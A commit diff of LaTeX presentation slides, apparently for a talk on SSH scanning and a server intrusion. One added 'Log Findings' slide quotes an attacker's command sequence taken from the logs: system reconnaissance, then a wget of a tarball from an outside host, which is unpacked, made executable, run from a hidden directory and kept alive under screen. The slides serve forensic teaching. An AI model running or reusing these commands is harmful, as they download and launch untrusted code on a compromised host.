

Before and after one commit to StephenWattam/ssh-scan-talk, LaTeX slides (doc/ssh-talk.tex): pages 8 and 9 of 14, joined at a grey line. Compiled offline with pdfLaTeX.

Commit message:
Added various bits later on

```diff
--- a/doc/ssh-talk.tex
+++ b/doc/ssh-talk.tex
@@ -17,8 +17,11 @@
 % -----------------------------------------------------------------------------------------
 % Other things for the sample
 \usepackage{hyperref}
+
+\usepackage{listings}
+
+
 \usepackage{graphicx}
-
 \graphicspath{ {./images/} }
 
 % -----------------------------------------------------------------------------------------
@@ -115,21 +115,43 @@
 }
 
-\subsection{Logs}
+\subsection{Auth logs}
 \frame{\frametitle{Syslog}
+% file: \texttt{\_logs.tgz}
+% \begin{center}
+%     \item \texttt{auth.log} contains the system auth log
+%     \item \texttt{edited\_files\_in...} contains all files edited since November 23rd
+%     \item \texttt{var\_log\_squid3} contains \texttt{/var/log/squid3}.
+% \end{center}
+}
+
+
+\subsection{Findings}
+\frame{\frametitle{Log Findings}
+% Any files edited after 23rd
+
 \begin{center}
-    \item Fin.
+
+
+
 \end{center}
 }
 
 
-\subsection{Logs}
-\frame{\frametitle{Other Files}
+\frame{\frametitle{Log Findings}
 % Any files edited after 23rd
-\begin{center}
-    \item Fin.
-\end{center}
+w
+ls
+passwd
+ifconfig
+cat /proc/cpuinfo
+wget http://descargarcs.net63.net/fv/ghh.tgz
+tar -zxf ghh.tgz
+rm -rf ghh.tgz
+chmod +x *
+cd .vogz
+chmod +x *
+screen
 }
-
 
 
 
```
Also changed, not shown: doc/ssh-talk.tex (35 more changed lines).
